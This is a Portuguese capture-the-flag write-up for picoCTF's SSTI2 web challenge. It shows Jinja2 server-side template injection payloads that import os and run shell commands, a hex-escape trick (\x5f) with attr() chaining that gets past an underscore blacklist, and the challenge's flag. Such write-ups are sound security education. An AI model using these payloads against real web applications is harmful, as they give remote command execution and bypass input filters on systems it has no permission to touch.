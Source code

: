 >	Autor: @Ralfbp{Z4π}
---
## ✨ Desafio: Web Exploitation

> Link do desafio: https://play.picoctf.org/practice/challenge/488
> Link do material: https://portswigger.net/web-security/server-side-template-injection
---
## Introdução

<center><img src= 'SSTI2 fotos/quest.png' ></center>

- Um desafio do site [picoCTF](https://play.picoctf.org/practice), que tem como objetivo a **Web Exploitation**
- **Web Exploitation**: explorar vulnerabilidades em aplicações web para obter acesso não autorizado, extrair informações ou executar ações indevidas.
- Neste desafio será usada a vulnerabilidade **Server-side template injection (SSTI)**.  
-   **Server-side template injection (SSTI)**: ocorre quando a entrada controlada pelo usuário é injetada diretamente em um _template_ do servidor sem o devido tratamento.

-----
## 🧩 Desafio


<center><img src= 'SSTI2 fotos/pagina.png' ></center>  

- Esta é a página exibida ao gerar e clicar no link do [picoCTF](https://play.picoctf.org/practice).

```
	# Home
	
	I built a cool website that lets you announce whatever you want!*
	
	What do you want to announce:
	
	
	
	*Announcements may only reach yourself
```


----
## 🛠️ Resolução

- Inicialmente, é ideal testar como funciona o campo de anúncio do site, por exemplo usando `{{7 * 7}}`.


<center><img src= 'SSTI2 fotos/test.png' ></center>


<center><img src= 'SSTI2 fotos/49.png' ></center>  

- O retorno `49` indica que o site está **interpretando a entrada como código dentro de um template engine**.
- Observando que o nome da questão refere-se a **Server-side Template Injection**, podemos tentar executar comandos do sistema através do template.
- Inserindo o payload abaixo no mesmo campo onde foi colocado `{{7 * 7}}`:

```

	{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

```


<center><img src= 'SSTI2 fotos/codigo.png' ></center>  

- Esse resultado mostra que não será possível utilizar a forma literal para se encontrar a **flag**  
- Pode ser que o filtro pode bloquear os literais `__globals__`, mas não bloqueou o escape `\x5f\x5fglobals\x5f\x5f` 
-  Testando o mesmo  código com em hexadecimal

```

	{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
	
```



<center><img src= 'SSTI2 fotos/requirements.txt.png' ></center>  

-  Em seguida substituímos `ls` por `cat flag` e obtivemos o conteúdo da flag:
- Passando para hexa decimal 

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

<center><img src= 'SSTI2 fotos/flag.png' ></center>  


---- 
### ✅ Conclusão

Neste desafio identificamos uma vulnerabilidade **SSTI**: o campo de entrada era avaliado pelo motor de templates, permitindo a execução de expressões. A aplicação tentou mitigar a falha bloqueando literais suspeitos (como `__globals__`), mas a proteção foi contornada ao usar escapes hexadecimais (`\x5f` → `_`) e acesso dinâmico a atributos via `attr`/`__getitem__`. Com isso foi possível importar o módulo `os` e executar `cat flag`, revelando a flag do desafio.

**Flag:** `picoCTF{sst1_f1lt3r_byp4ss_4de30aa0}`